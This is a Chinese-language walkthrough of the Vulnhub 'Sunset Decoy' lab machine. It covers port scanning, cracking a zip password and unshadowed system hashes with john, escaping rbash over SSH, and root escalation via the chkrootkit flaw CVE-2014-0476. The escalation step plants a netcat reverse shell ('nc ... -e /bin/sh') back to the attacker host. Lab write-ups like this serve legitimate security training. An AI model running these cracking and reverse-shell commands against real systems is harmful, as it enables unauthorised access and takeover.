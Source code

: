 ```yaml
---
layer: article
title: Vulnhub	505 SUNSET DECOY
tags: pentest vulnhub Walkthrough
---
```

考点：暴力穷举、chkrootkit

靶机链接：<https://www.vulnhub.com/entry/sunset-decoy,505/>

## 环境配置

| 名称         | IP        |
| ------------ | --------- |
| Kali Linux   | 10.0.2.15 |
| SUNSET DECOY | 10.0.2.13 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.13
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.13) [65535 ports]
Discovered open port 80/tcp on 10.0.2.13
Discovered open port 22/tcp on 10.0.2.13
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9:b5:3e:3b:e3:74:e4:ff:b6:d5:9f:f1:81:e7:a4:4f (RSA)
|   256 ce:f3:b3:e7:0e:90:e2:64:ac:8d:87:0f:15:88:aa:5f (ECDSA)
|_  256 66:a9:80:91:f3:d8:4b:0a:69:b0:00:22:9f:3c:4c:5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
```

### WEB测试

查看80端口，下载save.zip

```bash
$ zip2john save.zip >>save.txt
$ john save.txt --wordlist /usr/share/wordlists/rockyou.txt
```

得到zip压缩包密码`manuel`

![1](https://static.iihack.com/vulnhub/505/1.PNG)

解压缩得到一些文件

### 漏洞发现

尝试暴力破解系统密码

```bash
$ unshadow passwd shadow >pass.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt 

```

## 获得权限

### 靶机测试

![2](https://static.iihack.com/vulnhub/505/2.PNG)

成功获得一个用户的密码

现在登陆上去是rbash

使用参数获得bash

```bash
$ ssh 296640a3b825115a47b68fc44501c828@10.0.2.13 -t "bash -noprofile" 
```



## 提权

![3](https://static.iihack.com/vulnhub/505/3.PNG)

![4](https://static.iihack.com/vulnhub/505/4.PNG)

发现chkrootkit，尝试已存在漏洞[CVE-2014-0476](https://www.exploit-db.com/exploits/33899)

```bash
cd /tmp
echo "/usr/bin/nc 10.0.2.15 444 -e /bin/sh" > update
bash update
```

![5](https://static.iihack.com/vulnhub/505/5.PNG)
